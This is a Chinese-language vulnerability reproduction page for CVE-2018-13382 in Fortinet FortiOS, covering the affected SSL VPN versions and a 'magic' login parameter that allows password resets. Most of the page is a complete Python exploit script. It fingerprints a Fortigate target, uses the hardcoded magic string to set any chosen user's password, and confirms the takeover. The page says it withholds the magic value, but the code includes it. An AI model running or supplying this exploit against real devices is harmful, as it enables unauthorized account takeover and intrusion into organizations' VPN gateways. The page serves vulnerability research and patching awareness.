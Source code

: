 （CVE-2018-13382）Fortinet FortiOS magic后门
============================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS 6.0.0版本至6.0.4版本
、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN
Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

二、漏洞影响
------------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9
Fortinet Fortios 5.4.11

三、复现过程
------------

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![](./.resource/(CVE-2018-13382)FortinetFortiOSmagic后门/media/rId24.png)

根据我们的调查，仍有大量的Fortigate SSL
VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> reversed & exploited by our colleagues
> [\@niph\_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and
> [\@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch
> your
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> asap and see the
> [\#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw)
> talk of
> [\@orange\_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw)
> and [\@mehqq\_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for
> details (tnx guys for the teaser that got us started)
> [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
>
> --- Code White GmbH (\@codewhitesec)
> [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

    $ python CVE-2018-13382.py  -h
    Usage: CVE-2018-13382.py [options]

    Options:
      -h, --help   show this help message and exit
      -i IP        e.g. 127.0.0.1:10443
      -u USERNAME  
      -p PASSWORD  
    import requests, binascii, optparse, sys
    from urlparse import urlparse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    requests.packages.urllib3.disable_warnings()
    import multiprocessing
    import colored
    from user_agent import generate_user_agent, generate_navigator
    bold=True

    userAgent=generate_user_agent()
    username=""
    newpassword=""
    ip=""

    def setColor(message, bold=False, color=None, onColor=None):
        from termcolor import colored, cprint
        retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
        return retVal

    def checkIP(ip):
        try:
            url = "https://"+ip+"/remote/login?lang=en"
            headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            r=requests.get(url, headers=headers, verify=False)
            if r.status_code==200 and "<title>Please Login</title>" in r.text:
                return True
            else:
                return False
        except requests.exceptions.ConnectionError as e:
            print e
            return False

    def changePassword(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
            return True
        else:
            return False

    def testLogin(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
                return True
        else:
            return False

    parser = optparse.OptionParser()
    parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
    parser.add_option('-u', action="store", dest="username")
    parser.add_option('-p', action="store", dest="password")
    options, remainder = parser.parse_args()
    if not options.username or not options.password or not options.ip:
        print "[!] Please provide the ip (-i), username (-u) and password (-p)"
        sys.exit()
    if options.username:
        username=options.username
    if options.password:
        newpassword=options.password
    if options.ip:
        ip=options.ip
    tmpStatus=checkIP(ip)
    if tmpStatus==True:
        print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
        if changePassword(ip,username,newpassword)==True:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
            if testLogin(ip,username,newpassword)==True:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
                print "************** Enjoy your new credentials **************\n"
            else:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
        else:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
    else:
        print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
